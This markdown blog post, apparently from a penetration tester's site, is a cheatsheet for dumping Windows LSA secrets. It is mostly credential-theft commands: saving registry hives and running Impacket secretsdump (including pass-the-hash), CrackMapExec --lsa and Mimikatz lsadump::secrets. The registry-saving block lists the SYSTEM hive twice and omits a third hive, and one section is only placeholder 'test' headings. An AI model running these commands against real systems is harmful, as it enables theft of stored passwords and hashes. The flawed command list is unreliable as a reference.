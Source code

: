 ```yaml
---
layout: single
title:  "OS Credential Dumping: LSA Secrets"
date:   2021-11-29
categories: CredentialAccess CredentialDumping
sidebar:
    nav: "credaccess"
toc: true
toc_label: Table of Contents
toc_sticky: true

---
```


# Introduction
LSA secrets is part of the data that is stored within the Local Security Authority (LSA) in Windows. LSA itself is utilized to store private data all things revolving around passwords hence why we might care about it. They live within the registry and can be found at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. Naturally since its in the registry, in order to do anything with it, we'll need to have administrative access to the system in question. So in for a penny, in for a pound...

# Cheatsheet
Most of these methods will work without any extra work, but for reference I'll add alternatives to each incase you dont have cleartext password of the user involved, in which case the NTLM hash of the user will be sufficient. If all else fails you can manually save the registry files and export them to your attacking machine and manipulate them as needed. Also, this list will not be exhaustive, as during my research a lot of these tools just piggy back off of each other so I'll list the most common/popular ones that I've seen and used myself.

## Save Registry Files
{% highlight powershell %}
    reg.exe save HKLM\SYSTEM <NAME>
    reg.exe save HKLM\SECURITY <NAME>
    reg.exe save HKLM\SYSTEM <NAME>
{% endhighlight %}

## Impacket SecretsDump
{% highlight shell %}
    python3 secretsdump.py <AD FQDN>/<USERNAME>:<PASSWORD>@<IP ADDRESS>
    python3 secretsdump.py -hashes <NTLM FULL HASH> <AD FQDN>/<USER>@<IP ADDRESS>
    python3 secretsdump.py -sam <SAMNAME> -security <SECURITYNAME> -system <SYSTEMNAME> LOCAL
{% endhighlight %}

## CrackMapExec
{% highlight shell %}
    crackmapexec smb <IP ADDRESS OR RANGE> -u <USERNAME> -p '<PASSWORD>' --lsa
{% endhighlight %}

## Mimikatz
{% highlight powershell %}
    lsadump::secrets /system:<LOCATION OF SYSTEM REG FILE> /security:<LOCATION OF SECURITY FILE>
{% endhighlight %}

<br>
# Down The Rabbit Hole
## test
### test2
### test3
##
##


# Tool References
1. [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
2. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
3. [Mimikatz](https://github.com/gentilkiwi/mimikatz)

# References
1. [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
2. [https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
3. [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
4. [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)